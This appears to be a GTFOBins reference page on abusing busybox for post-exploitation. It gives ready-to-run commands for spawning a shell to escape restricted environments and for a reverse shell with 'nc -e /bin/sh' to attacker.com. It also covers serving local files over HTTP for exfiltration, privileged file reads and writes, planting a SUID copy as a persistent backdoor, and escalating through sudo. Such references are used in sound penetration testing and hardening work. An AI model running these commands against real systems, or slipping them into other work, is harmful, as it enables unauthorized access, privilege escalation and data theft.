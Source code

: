 # GTFOBin: busybox

BusyBox may contain many UNIX utilities, run `busybox --list-full` to check what GTFOBins binaries are supported. Here some example.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
busybox sh
```

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

Run `nc -lvp 12345` on the attacker box to receive the shell.

```
RHOST=attacker.com
RPORT=12345
busybox nc -e /bin/sh $RHOST $RPORT
```

## File upload

It can exfiltrate files on the network.

Serve files in the local folder running an HTTP server.

```
LPORT=12345
busybox httpd -f -p $LPORT -h .
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
LFILE=file_to_write
busybox sh -c 'echo "DATA" > $LFILE'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
./busybox cat "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

It may drop the SUID privileges depending on the compilation flags and the runtime configuration.

```
sudo install -m =xs $(which busybox) .

./busybox sh
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo busybox sh
```